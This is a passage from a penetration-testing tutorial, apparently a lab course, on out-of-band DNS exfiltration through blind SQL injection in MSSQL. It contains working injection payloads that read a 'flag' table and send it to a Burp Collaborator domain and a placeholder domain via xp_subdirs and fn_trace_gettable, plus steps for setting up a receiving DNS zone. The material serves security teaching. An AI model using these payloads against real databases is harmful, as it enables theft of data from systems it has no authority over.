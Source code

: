 ```sql
';DECLARE @T VARCHAR(MAX);DECLARE @A VARCHAR(63);DECLARE @B VARCHAR(63);SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), flag), 1) FROM flag;SELECT @A=SUBSTRING(@T,3,63);SELECT @B=SUBSTRING(@T,3+63,63);EXEC('master..xp_subdirs "\\'+@A+'.fgz790y9hgm95es50u9vfld51w7mvb.burpcollaborator.net\x"');EXEC('master..xp_subdirs "\\'+@B+'.fgz790y9hgm95es50u9vfld51w7mvb.burpcollaborator.net\x"');--

```

Although it takes a little bit longer, it works:

![image](EHm7uiKGhfam.png)

Note: Out-of-Band DNS exfiltration is `not unique to SQL injections`, but may also be used with other blind attacks to extract data or commands output, such as `blind XXE` (eXternal XML Entities) or blind `command injection`.

## Using a Custom DNS Record

The above two examples with `Interact.sh` and `Burp Collaborator` showed how this attack can be carried over the internet using the DNS/domain logging services provided by them. DNS Out-of-band data exfiltration is also possible when pentesting any organization's local network, and can be performed locally without going over the internet if we had access to the organization's local DNS server. Furthermore, we may still carry the attack over the internet without relying on `Interact.sh` and `Burp Collaborator` by creating a custom DNS record with any ISP or DNS authority, as we will show below.

The VM below has a DNS server setup that allows us to add new domain names, which simulates a DNS authority in real-life that we would use to add new DNS records/domains.

We can access its dashboard on port ( `5380`) and login with the default credentials ( `admin`: `admin`), and then click on `Zones` and then `Add Zone`. Then, we can enter any unique domain name we want to receive the requests on, we will use `blindsqli.academy.htb` in this case, and select it as a `Primary Zone`:
![dns_oob_add_zone](bb339xSL86FL.jpg)

Next, we can add an `A` record that forwards requests to our attack machine IP. We can keep the name as `@` (wild card to match any sub-domain/record), select the type `A` (IPv4 DNS record), and set our machine's IP address:
![dns_oob_add_a_record](B7NhdfK7pLRN.jpg)

As we are using a custom DNS domain and have access to the DNS server logs, we do not need to setup another listener like `interact.sh` to capture the logs (though it is still an option), and instead we can directly monitor the DNS logs on the DNS web application and search through incoming DNS requests.

## Practical Example

Let's try a DNS OOB attack as demonstrated earlier, and see how we can exfiltrate data in action. This time, we will carry the attack on the other ( `Aunt Maria's Donuts`) web app, so that we can show a different example. We will inject one of the payloads mentioned earlier, as follows:

```sql
DECLARE @T VARCHAR(1024); SELECT @T=(SELECT 1234); SELECT * FROM fn_trace_gettable('\\'+@T+'.YOUR.DOMAIN\x.trc',DEFAULT);

```
